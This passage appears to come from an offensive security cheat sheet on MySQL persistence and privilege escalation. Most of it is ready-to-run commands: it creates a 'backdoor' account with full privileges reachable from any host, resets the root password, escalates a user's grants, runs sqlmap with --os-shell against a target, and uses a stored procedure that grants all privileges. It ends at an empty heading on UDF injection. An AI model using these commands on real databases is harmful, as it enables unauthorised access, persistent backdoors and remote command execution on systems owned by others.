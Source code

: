 *   **Tool:** \[\[MySQL]]

    ```sql
    CREATE USER 'backdoor'@'%' IDENTIFIED BY 'password';
    GRANT ALL PRIVILEGES ON *.* TO 'backdoor'@'%';
    ```
* **Description:** Creates a new admin account with full privileges that can be used to maintain access to the database.

#### Change Existing Admin Account Password

*   **Tool:** \[\[MySQL]]

    ```bash
    ALTER USER 'root'@'localhost' IDENTIFIED BY 'newpassword';
    ```
* **Description:** Modify an existing user account password for persistent access.

#### Manipulate Existing User Account

*   **Tool:** \[\[MySQL]]]

    ```bash
    SHOW GRANTS FOR '<username>'@'<host>';
    GRANT ALL PRIVILEGES ON <database_name>.* TO '<username>'@'localhost';
    ```
* **Description:** Modify existing user entries to escalate privileges of a lower-privileged account.

#### Privilege Escalation via SQL Injection

*   **Tool:** \[\[SQLMap Cheat Sheet]]

    ```bash
    sqlmap -u "http://<target_ip>/vulnerable.php?id=1" --dbms=mysql --os-shell
    ```
* **Description:** Escalates privileges by leveraging SQL injection to execute system commands.

#### Abusing Stored Procedures

*   **Tool:** \[\[MySQL]]

    ```sql
    DELIMITER $$
    CREATE PROCEDURE elevate_privs()
    BEGIN
    DECLARE CONTINUE HANDLER FOR SQLEXCEPTION RESIGNAL;
    GRANT ALL PRIVILEGES ON *.* TO 'root'@'%';
    END$$
    CALL elevate_privs()$$
    ```
* **Description:** Exploits stored procedures to execute arbitrary SQL commands with elevated privileges.

#### MySQL UDF (User-Defined Function) Injection
